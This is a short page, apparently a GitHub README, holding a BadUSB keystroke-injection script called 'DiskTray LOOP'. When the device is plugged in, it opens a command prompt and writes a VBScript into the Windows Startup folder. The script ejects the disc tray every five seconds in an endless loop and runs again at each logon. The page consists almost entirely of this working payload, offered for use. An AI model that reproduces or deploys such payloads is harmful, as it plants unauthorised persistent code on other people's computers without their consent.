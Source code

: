 # DiskTray LOOP (For BadUSBs)
This scripts sets a vbs file into the startup folder that opens the disk tray over and over (Every 5 seconds).

# Code
<pre><code>GUI d
DELAY 300
GUI r
STRING cmd
ENTER
DELAY 200
STRING cd "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup"
ENTER
STRING copy con DT.vbs && start DT.vbs && exit
ENTER
DELAY 100
STRING Set oWMP = CreateObject("WMPlayer.OCX.7" )
ENTER
STRING Set colCDROMs = oWMP.cdromCollection
ENTER
STRING do
ENTER
STRING colCDROMs.Item(i).Eject
ENTER
STRING wscript.sleep 5000
ENTER
STRING loop
DELAY 200
CTRL z
</code></pre>
